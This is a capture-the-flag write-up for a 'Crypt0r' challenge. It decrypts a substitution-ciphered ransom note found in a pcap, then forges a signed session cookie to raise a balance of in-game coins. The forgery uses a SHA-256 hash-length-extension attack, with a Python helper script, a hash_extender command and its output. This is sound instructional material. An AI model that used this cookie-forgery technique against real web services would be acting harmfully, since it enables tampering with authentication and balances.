

## Crypt0r

### [~$ cd ..](../)

### Crypt0r 1

For the part of the challenge, we are given a [pcap](ids_alert_24032018.pcap) to analyze. As usual, we opened it with Wireshark
and noticed that it contains a readable TCP stream:

> ```
> >> CRYPT0R_SEED:58
> << CRYPT0R:PMSFADNIJKBXQCGYWETOVHRULZ
> >> SELYO0E_PSB
> << SELYO0E:PXX_NGGF
> >> SELYO0E:NAO_HJSOJQ_JF>{A2FS3118-0399-48S7-857S-43D9528DD98F}
> << SELYO0E:HJSOJQ_JF_JT>....
> >> SELYO0E:NAO_DJCPX_QTN
> << SELYO0E:DJCPX_QTN_JT>!!! PXX LGVE DJXAT IPHA MAAC ACSELYOAF !!!
>
> << Selyo0e toegba mpsb pcf lgv ngo dvsb*f mvffl. Lgv spccgo faselyo lgve fpop ausayo jd lgv ypl qa $500. #TIGRQAOIAQGCAL pcf J rjxx njha lgv mpsb lgve fpop.
>
> << Dgxxgr oiata jctoevsojgct:
> << - Jctopxx oia oge megrtae, pcf ng og gve yplqaco yxpodgeq: iooy://bu4ifi2zg5etosvk.gcjgc (YSJ-FTT pyyeghaf gds meg).
> << - Acoae lgve yaetgcpx bal: JCTP{mW9CLVlPjpUtbZFdccPioVV01jdaUeGv}
>
> << Oipcbt dge vtjcn ql epctgqrpea.
>
> << Rjoi xgha,
> << Selyo0qpc
> ```

We first tried to decrypt it "by hand" this simple substitution cipher, and noticed that the second message was actually the key: PMSFADNIJKBXQCGYWETOVHRULZ

>CRYPT0R STROKE BACK AND YOU GOT FUCK*D BUDDY. YOU CANNOT DECRYPT YOUR DATA EXCEPT 
>IF YOU PAY ME $500. #SHOWMETHEMONEY AND I WILL GIVE YOU BACK YOUR DATA.FOLLOW THESE
>INSTRUCTIONS:
>- INSTALL THE TOR BROWSER, AND GO TO OUR PAYMENT PLATFORM: HTTP://KX4HDH2zO5RSTCUk.ONION (PCI-DSS APPROVED OFC BRO).
>- ENTER YOUR PERSONAL KEY: INSA{BQ9NYUYAIAXSKzDFNNAHTUU01IFEXROU}
>THANKS FOR USING MY RANSOMWARE.WITH LOVE,CRYPT0MAN

**INSA{bQ9NYUyAiaXskZDfnnAhtUU01ifeXrOu}**

Easy flag!

## Step 2

By decrypting the whole message, we found an URL: http://kx4hdh2zo5rstcuj.onion

The statement tells us that we have to go on this website and get encrypted files. 



We noticed the comment by looking at the source code: `<!-- TODO: delete sources from 'src-code' directory  -->` and got [this file](app.py.swp)

It's a swap file, let's [recover it](app.py):

> ```bash
> ~$ vi -r app.py.swp
> ...
> :w app.py
> ```

On the website, a cookie like this one was set:

"user=8O1vhuosG4:a3d63e63c67cb4285b121ff6b7c5df7c7f03da2ee4140890282d157aee2ab442:aW5zYV9jb2luczogNDAwCm5hbWU6IEFkcmlhbiBMYW1vCnZhbGlkX3VudGlsOiAxNTIzMTE4NTkxCg=="

The base64-encoded string represents the amount of insa_coins we have:

>insa_coins: 400
>name: Adrian Lamo
>valid_until: 1523118591

We don't have enough INSA coins to get all files back, and the basic plan didn't work. We had to use premium plan, but we didn't have enough INSA coins.
Since the cookie was signed with the private key, we should not be able to modify it properly... Really ?

Actually, because of the routine `sign`, a hash extension attack is possible, because the message in concatenated with the key. We can then extend
the base64-encoded string and set the desired amount of INSA coins.

We used [this tool](https://github.com/iagox86/hash_extender) to lead our attack, and wrote a small script to prepare the command to execute:

> ```python
> import base64
> cookie = "8O1vhuosG4:a3d63e63c67cb4285b121ff6b7c5df7c7f03da2ee4140890282d157aee2ab442:aW5zYV9jb2luczogNDAwCm5hbWU6IEFkcmlhbiBMYW1vCnZhbGlkX3VudGlsOiAxNTIzMTE4NTkxCg=="
> datacookie = cookie.split(':')
> newdata = '\ninsa_coins: 500'
> data = base64.b64decode(datacookie[2])
> print './hash_extender -l 20 -d '+datacookie[0].encode('hex')+data.encode('hex')+' --data-format=hex -s '+datacookie[1]+' -a ' + newdata.encode('hex') + ' --append-format=hex'
> >>> ./hash_extender -l 20 -d 384f317668756f734734696e73615f636f696e733a203430300a6e616d653a2041647269616e204c616d6f0a76616c69645f756e74696c3a20313532333131383539310a --data-format=hex -s a3d63e63c67cb4285b121ff6b7c5df7c7f03da2ee4140890282d157aee2ab442 -a 0a696e73615f636f696e733a20353030 --append-format=hex
> ```

Let's execute this command:

> ```bash
> ~$ ./hash_extender -l 20 -d 384f317668756f734734696e73615f636f696e733a203430300a6e616d653a2041647269616e204c616d6f0a76616c69645f756e74696c3a20313532333131383539310a --data-format=hex -s a3d63e63c67cb4285b121ff6b7c5df7c7f03da2ee4140890282d157aee2ab442 -a 0a696e73615f636f696e733a20353030 --append-format=hex
>
>Type: sha256
>Secret length: 20
>New signature: ef88d7225f4a76f98923ed6c4a7de5b2b9703a82c3fcc39c63f27201a27a192b
>New string: 384f317668756f734734696e73615f636f696e733a203430300a6e616d653a2041647269616e204c616d6f0a76616c69645f756e74696c3a20313532333131383539310a800000000000000000000000000000000000000000000000000000000000000000000000000002c00a696e73615f636f696e733a20353030
> ```

Now, we had to re-encode the cookie with new signature and new data:

> ```python
> newdata = '384f317668756f734734696e73615f636f696e733a203430300a6e616d653a2041647269616e204c616d6f0a76616c69645f756e74696c3a20313532333131383539310a800000000000000000000000000000000000000000000000000000000000000000000000000002c00a696e73615f636f696e733a20353030'
> newdata = newdata[len(datacookie[0])*2:].decode('hex')
> print 'To send\n'
> print datacookie[0]+':ef88d7225f4a76f98923ed6c4a7de5b2b9703a82c3fcc39c63f27201a27a192b:'+base64.b64encode(newdata)
> ```

And it was a win! A page was returned with the flag **INSA{M4k3_My_F1l3s_Gr3at_Aga1n}**, and the URL "/super-secret-location-that-you-cant-find-without-help/" where it
was possible to download a binary, for the third step ...
